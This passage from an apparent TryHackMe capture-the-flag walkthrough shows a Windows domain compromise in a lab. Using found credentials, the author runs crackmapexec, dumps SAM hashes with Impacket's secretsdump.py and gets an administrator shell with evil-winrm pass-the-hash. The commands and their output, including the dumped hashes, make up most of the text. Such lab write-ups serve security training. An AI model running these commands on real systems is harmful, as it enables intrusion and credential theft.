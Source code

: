 objTrans.Set ADS_NAME_TYPE_NT4, strNetBIOSDomain & "\" & strUserNTName
If (Err.Number <> 0) Then
    On Error GoTo 0
    Wscript.Echo "User " & strUserNTName _
        & " not found in Active Directory"     
    Wscript.Echo "Program aborted"                                                 
    Wscript.Quit
End If                                                                             
strUserDN = objTrans.Get(ADS_NAME_TYPE_1779)
```
Another credentials cool let confirm which permission we have with `crackmapexec` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ crackmapexec smb 10.10.108.117 -u a-whitehat -p bNdKVkjv3RR9ht     
SMB         10.10.108.117   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.108.117   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```

We got `Pwn3d` now that is interesting back to `Impacket` to use ` secretsdump.py` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]                                                                                                       
└─$ secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.108.117                                                                                           
Impacket v0.9.24.dev1+20210629.123513.142cacb6 - Copyright 2021 SecureAuth Corporation            
                                                                                                                                                                       
[*] Service RemoteRegistry is in stopped state                                                                                                                         
[*] Starting service RemoteRegistry                                                                                                                                    
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a         
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)               
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::         
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                         
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                     
[*] Dumping cached domain logon information (domain/username:hash)                                                                                                     
[*] Dumping LSA Secrets                                           
```

So i dump all users hashes now we can use `evil-winrm` with the pass the hash attack to gain administrator access.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]                                                                                                       
└─$ evil-winrm -i 10.10.108.117 -u administrator -H c2597747aa5e43022a3a3049a3c3b09d                                                                                   
                                         
Evil-WinRM shell v2.4 

Info: Establishing connection to remote endpoint                                                                                                                       
                                                                                                                                                                       
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /all                                                                                                          
                                                                                                                                                                       
USER INFORMATION                                                                                                                                                       
----------------                                                                                                                                                       
                                                                                                                                                                       